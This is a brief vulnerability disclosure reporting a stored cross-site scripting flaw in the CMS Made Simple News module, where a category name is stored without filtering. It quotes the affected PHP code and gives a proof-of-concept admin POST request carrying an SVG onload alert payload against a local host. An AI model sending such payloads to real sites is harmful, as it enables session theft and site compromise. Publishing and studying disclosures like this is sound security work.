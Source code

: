 One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation。  
file modules/New/action.addcategory.php,line10~line29.  
	
    $name = trim($params['name']);
    if ($name != '') {
		echo $name;
        $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
        $tmp = $db->GetOne($query,array($parent,$name));
        if( $tmp ) {
            echo $this->ShowErrors($this->Lang('error_duplicatename'));
        }
        else {
            $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
            $item_order = (int)$db->GetOne($query,array($parent));
            $item_order++;

            $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");

            $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
            $parms = array($catid,$name,$parent,$item_order);
            $db->Execute($query, $parms);
    
  The parameter name insert into the database without filtering。

## POC  
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
    
